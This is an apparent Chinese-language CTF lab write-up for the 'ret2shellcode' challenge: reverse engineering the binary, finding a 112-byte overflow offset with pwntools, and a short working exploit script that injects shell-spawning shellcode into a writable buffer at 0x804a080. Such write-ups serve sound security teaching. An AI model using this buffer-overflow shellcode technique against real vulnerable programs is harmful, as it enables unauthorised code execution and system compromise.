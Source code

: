 # ret2shellcode
## 執行結果

會自動印出 " No system for you this time !!!"

接著輸入任意字串

就會印出 "bye bye ~"

結束執行

![image](https://user-images.githubusercontent.com/22366572/148738726-f6408add-6f6b-42b3-9624-7afbfea8d595.png)

## 分析步驟
### Step 1 : 獲得檔案的基本資料

指令: ```file [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148719601-e694ff03-15c6-41e8-91e0-63f9528e3fc8.png)

可以看到它是在 GNU/Linux 2.6.24 上編譯的，dynamically linked (動態連接的)，ELF 32-bit LSB executable

### Step 2 : 看開啟了哪些保護機制

指令: ```checksec [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148719750-61ca71ad-4ce4-4565-ac46-e310794b4f09.png)

可以看到這個執行檔沒有開啟保護機制

### Step 3 : 做逆向工程

1. 使用 radare2 做逆向工程

main逆向指令:
```
r2 ret2shellcode
aa
afl
s main
VV
```
![image](https://user-images.githubusercontent.com/22366572/148738318-e9c4df11-94c9-4fab-a1fe-bc1cd3628721.png)

main 組語:

![image](https://user-images.githubusercontent.com/22366572/148738426-65ea99e6-0861-4f5b-902c-2fadfeef4aec.png)
![image](https://user-images.githubusercontent.com/22366572/148738519-df170b94-4552-46f6-9b29-a91c08774fe8.png)

從上面可以觀察到輸入的字串會儲存在 **buf2** 裡，或許可以在 buf2 裡塞 shellcode 來執行我們想要的指令 

2. 使用 IDA 做逆向工程

將檔案匯入IDA，即可看到組語

![image](https://user-images.githubusercontent.com/22366572/148740280-53add0f9-f2b3-4294-898b-f327affc5f13.png)


### Step 4 : 確認 buf2 是否有可執行能力

指令:
```
gdb ./ret2shellcode
b main                # 給一個breakpoint
r                     # 執行
```

![image](https://user-images.githubusercontent.com/22366572/148740688-47bd3855-3e0f-434c-acf1-a3a8ac6f7b58.png)

![image](https://user-images.githubusercontent.com/22366572/148741213-6a36cef4-3ccf-4132-8934-0d2d05630b25.png)
![image](https://user-images.githubusercontent.com/22366572/148741276-eb742942-e9d4-4bb6-bba5-bab5ba444445.png)

**接著我們要來找 buf2 的位置**

指令:
```
vmmap
```

![image](https://user-images.githubusercontent.com/22366572/148741876-414772bb-c0dc-4824-b5de-e6b9479acb01.png)

因為從上面用 radare2 或是 IDA 分析可以看到，buf2 的位置在 0804a080，所以從上面那張圖可以知道 buf2 的位置在 /home/woowater/Lab3/PWN20210824/ROP/ret2， **且狀態是可讀可寫的**

[Perm] :
  
  ![image](https://user-images.githubusercontent.com/22366572/148756873-dee75647-ace7-4856-84d6-940b6c9a7054.png)

### Step 5 : 找到 return address 的位置
先用 python 產生 120 個隨機的字元 :
```
from pwn import *
cyclic(120)
```
![image](https://user-images.githubusercontent.com/22366572/148826938-5eaf0afc-0787-4573-8c21-7dd49db2dab8.png)

```
# 120字元
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
```

開啟 gdb ，啟動 ret2shellcode ，將剛剛產生的 120 個隨機的字元填進去，看看會發生甚麼事:

![image](https://user-images.githubusercontent.com/22366572/148828010-4283f211-f9a5-42f7-b748-2154eddeee8d.png)
![image](https://user-images.githubusercontent.com/22366572/148828102-624465bd-2689-44cc-8b28-fbcc2fb4f5cd.png)

由上圖可看到發生了 Segmentation fault，這是因為在EIP指到的地方發生了 Invalid $PC address。當時跑到 return address 的 EIP 會填進 "daab"，我們希望能將 "daab" 那裡填進我們 shellcode 的位置，這樣當 EIP 跑到 return address 時，就會跳到 shellcode 並執行裡面的程式。對照產生的 120 字元可以知道，在跑到 return address 之前需要填進 **112 個字元**
```
# 開啟python找到指定字元的方法
from pwn import *
cyclic(120)
cyclic_find(b'daab') # find 'daab' location
```

### Step 6 : 撰寫 exploit code

**Exploit code :**

(檔名: exp-ret2shellcode.py)

exploit code 裡面可以讓準備好要進行攻擊的 shellcode 塞進 buf 執行 (這裡先不放 shellcode)

```
from pwn import *
sh = process("./ret2shellcode")
payload = asm(shellcraft.sh())
payload = payload.ljust(112,"a")
buf2_addr = 0x804a080
sh.sendline(payload + p32(buf2_addr))
sh.interactive()
```

執行結果:

![image](https://user-images.githubusercontent.com/22366572/148839040-044519be-7615-467c-9812-31f915de2e8c.png)


### 參考資料

1. https://hackmd.io/@JuneWave/Hk8MFqWhE?type=view
2. https://www.bilibili.com/video/BV1Vg4y1z7oF/

